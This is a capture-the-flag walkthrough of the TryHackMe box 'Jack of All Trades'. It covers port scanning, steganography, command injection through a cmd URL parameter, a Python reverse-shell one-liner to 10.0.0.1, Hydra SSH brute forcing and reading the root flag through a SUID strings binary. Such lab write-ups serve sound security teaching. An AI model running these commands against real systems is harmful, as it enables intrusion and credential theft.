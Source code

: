 # 'Jack-of-All-Trades' box writeup
## Jack of All Trades is a CTF box originally designed for Securi-Tay 2020 and written by MuirlandOracle, available on the [TryHackMe platform](https://tryhackme.com).
## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274)
## ![bg](images/backgroundjack.jpeg?raw=true "Title")

## Foothold

+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``
      
+ **We can see 2 open ports with some services: ssh and http. The first strange thing is that the services are opened on reversed ports. Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port. We see an browser error: seems like Firefox has canceled our request for kind of security. That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser: [allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274). Go into the about:config page in the url, search for the ports and add the network.security.ports.banned.override string, with the 22 value**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there. Let's scan with gobuster too**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output. Let's visit the assets page; we can see some *jpg* files, one of them called** stego.jpg **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page. Let's take a look into the source code of the page**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the /recovery.php page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too! Let's use it to decrypt the image with steghide**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A creds.txt file was hidden inside, but the stego.jpg wasn't the good path. Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo! We got a username and a password inside the header.jpg image. Let's go to the /recovery.php page and try to login with the credentials**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's try some system commands inside the url:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

![cmd](images/cmdworks.jpg?raw=true "cmd")

+ **It's all working, so go grab a reverse shell. I'm gonna use python and start listen with nc**

``nc -lvnp 1234``

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![12](images/access.jpg?raw=true "access")

## User escalation

**Here we got our access into the system. Let's spawn an interactive shell with python and continue to enumerate**

``python -c 'import pty; pty.spawn("/bin/bash")'``

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user. According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine. Open a python server on the Jack box and we're gonna get the file on our's**

**The Jack box**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**Our machine**

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/jacks_password_list``

+ **Now, having the wordlist, let's start the bruteforce phase. Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

``hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh``

![13](images/hydra(1).jpg?raw=true "hydra")

**Let's connect into the ssh server with our credentials on the 80 port**

``ssh jake@10.10.252.248 -p 80``

+ **In the /home/jack directory we can see the user flag, but in the .jpg format. Let's get the image on our machine, using the same method as above, and then open it**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/user.jpg``

**Opening the user.jpg flag, we can see the Penguing recipe and the user flag**

![14](images/user.flag.jpg?raw=true "user")

## Root escalation

+ **Checking for ``sudo -l`` on the jack user gives us no good path. He has no sudo permission on the machine**

``Sorry, user jack may not run sudo on jack-of-all-trades.``

**Let's check for some advanced linux file permissions, suid & guid

``find / -type f -user root -perm -4000 -print 2>/dev/null``

+ **This gives us some interesting output. The strings executable has got file owner permission when executing a command**

![15](images/suid.jpg?raw=true "suid")

**Knowing this, let's try to use strings on our root.txt flag**

``strings /root/root.txt``

+ **And here's our root flag. This was a very nice box with some steganography challenges into, a reversed ports configuration of services and some file permissions. All thanks to MuirlandOracle, creator of this wonderful box**

![15](images/root_flag_jack.jpg?raw=true "suid")












